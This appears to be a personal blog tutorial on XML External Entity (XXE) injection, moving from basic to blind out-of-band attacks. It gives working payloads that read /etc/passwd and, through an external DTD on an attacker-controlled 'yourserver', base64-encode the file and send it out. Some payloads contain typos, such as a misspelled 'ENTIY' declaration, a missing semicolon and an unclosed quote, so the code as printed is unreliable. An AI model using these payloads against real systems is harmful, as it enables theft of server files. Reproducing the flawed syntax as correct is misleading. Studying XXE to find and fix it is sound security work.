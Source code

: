Hi all,

&nbsp;  Welcome to my blog of "From basic XXE to blind XXE"<br><br>

But first let's understand some basic keywords.

**Entity**: Entities reference data that act as an abbreviation or can be found at an external location. 

Most common entites are:-

**Internal Entity**: If an entity is declared within a DTD it is called as internal entity.<br>
*Syntax:-* `<!ENTITY entity_name "entity_value">`

**External Entity**: If an entity is declared outside a DTD it is called as external entity. Identified by 'SYSTEM'.<br>
*Syntax:-* `<!ENTITY entity_name SYSTEM "entity_value">`

**Parameter Entity**: The purpose of a parameter entity is to enable you to create reusable sections of replacement text. (If not understood, You will understand more clearly in later.)<br>
*Syntax:-* `<!ENTITY % entity "another entity (Internal or External)">`


## What is XXE?

XXE is a short of XML External Entity, which is a vulnerablity found when misconfiguration XML parser parses enternal entities.
There are two types of XXE:- 

1. Basic.
2. Blind.

Basic one:-

For ex you have a url with a parameter that parses XML data somthing like this:- 'http://myapp.com/somefile.php?xml=<xml_data>'

Now when you provide any xml data, and that data is printing back to the user's browser then you can try basic XXE. You have to confirm the vulnerability existence and this can be done by something like this.

Payload 1:- `<?xml version="1.0"?>`
`<!DOCTYPE root [`
`<!ENTITY test SYSTEM 'http://yourserverip/'>]>`
`<root>&test;</root>`

Now let's understand this. 

1.First we declare the xml Syntax, now, we define DOCTYPE to define the contents of XML body,<br> 
2.After that, we define root element after the DOCTYPE i.e. root, next, we define the Entity and that entity contains SYSTEM attribute which indicate that the entity is External.<br>
3.After that we define our server's ip because we want to let the target server to send the request to us.

Now when you give that payload to mis-configured XML parser, the mis-configured XML parser will parse the results and it will process our External entity by **requesting to your server.**

So if you got a new connection in the log file then it is confirmed that you have found XXE.

### Now it's time to exploit it.

Our main target is to read local files of the web server and this can be done using this payload 

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`,

The xml parser will process this payload as same as above but instead of requesting to your server now it will request to locally, with the file protocol, it will grep the file contents and shown to us. Hence, we can read local file of the webserver.

## What if the xml data is not showing to us? (Blind XXE Case)

Okay,

Still you can confirm the existence of the vulnerability by using the first payload above. But you can't see the file contents of local files of webserver. This is still an issue but now the severity is a ***little bit low.*** And, this is called Blind XXE OR Out-of-band XXE.

So we also needed to blind means we have to use blind payload which will grep the contents of the local files of the webserver and send the contents to our server. Sound interesting, let's see how this whole theory works and also let's see that if we have some alternatives to do that.

Payload 2:- `<?xml version="1.0"?>`
`<!DOCTYPE root [`
`<!ENTITY % test SYSTEM 'http://yourserver/xml.dtd'> %test; %exe]>`
`<root>&entity;</root>`

Your xml.dtd contents:- 

`<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">`
`<!ENTIY % exe "<!ENTITY entity SYSTEM 'http://yourserver/%file;'>">`

Lot's of code to understand:-

> we are using External dtd file i.e. `%test;`. So first the xml parser will parse this entity and make a request to your web-server for getting the contents of dtd file. Now, in that dtd file we define some entities to process. 
>
> `%exe;` will make another general entity i.e. &entity; and that entity will make a request to our server with the *file contents.* which was found by the `%file;`
>
> When the xml parser parses the entity `%file;`, then that entity will grep the file contents of local files of the server (which is our main target). 
> We are using php filter to get the file contents to bypass any restrictions.
> Now attacker can log the request and reconstruct the file contents. 

Make sense?

Let's see how all this works.

<video src="/bandicam 2018-11-04 23-35-26-024.mp4" width="320" height="200" controls preload></video>

Cool. 

Now, Have anyone arise a question that why we call the dtd from attacker's server? Why not this below payload works?

Payload 3:- `<?xml version="1.0"?>`
`<!DOCTYPE root [`
`<!ENTITY % filecontents SYSTEM 'file:///etc/passwd>`
`<!ENTITY test SYSTEM 'http://yourserver/%filecontents;'>]>`
`<root>&test;</root>`

this would be easier than before? Yes it is, but it is not going to work. 

**Actually parameter entity can't be called inside the DTD subset they can be called in the External subset (like we did in Payload no 2. It will be forbidden, hence you will get the forbidden error.**

So that's the reason why we can't run above payload.

That's all guys, I just want to share because I want. :)

Hope you like this read. 

Have a good hacking day.




